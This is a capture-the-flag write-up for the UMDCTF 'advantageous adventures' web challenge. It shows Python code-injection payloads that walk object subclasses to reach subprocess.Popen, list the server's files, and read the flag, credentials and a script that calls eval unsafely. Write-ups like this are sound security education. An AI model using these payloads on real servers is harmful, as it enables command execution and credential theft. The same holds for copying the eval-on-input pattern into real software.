This is the first challenge of the advantageous adventures series.

The description points to a web server, hosting a page that allows xor, addition and multiplication to be performed. However, the inputs are evaluated together directly (SSTI), which can be seen by for example setting `7*7` as one of the inputs. The HTTP headers reveal that the server runs Python 3, so that's likely what's evaluating the expressions as well.

Since there seem to be no filters on the input, `subprocess.Popen` can be found from the subclasses of `Object`. I used the following inputs for the first text box in the multiplication calculator, setting the other one to `1`:

```python3
repr(Flask.__mro__[2].__subclasses__())
```

which showed the list of subclasses, then

```python3
repr(Flask.__mro__[2].__subclasses__()[375](['ls'], stdout=-1).stdout.read())
```

to perform a `ls`, revealing multiple files:

```
b'Dockerfile\nREADME.md\n__pycache__\napp.py\nflag.txt\nsecret_info\nsecret_script.py\nstatic\ntemplates\n'
```

The relevant files are `flag.txt`, `secret_info` and `secret_script.py`. These all can be read by inputting

```python3
open("filename").read()
```

`secret_info` contains

```
Make sure not to leak this info, needs to be super secret:
ip: chals1.umdctf.io
port: 3001
username: user
password: w0w_th3s3_@dv3ntur3s_r3@lly_@r3_outr@g30u5
wifi password: whose_adventure
```

`secret_script.py` contains


```python3
from scapy.all import rdpcap, RadioTap, wrpcap

# run this on the file you get during the second challenge
# you don't need to understand all of it

packets = rdpcap('in.pcap')
fixed_packets = []

if len(packets) < 2153:
    # must have at least 2153 packets
    exit(1)

for packet in packets:
    # I know eval is unsafe but stackoverflow is down when script was created
    packet_bytes = eval(str(packet))
    fixed_packet_bytes = packet_bytes[14:]
    fixed_packets.append(RadioTap(fixed_packet_bytes))
wrpcap("out.pcap", fixed_packets)
```

`flag.txt` contains the flag `UMDCTF-{pl3z_n0_3v4l}`.
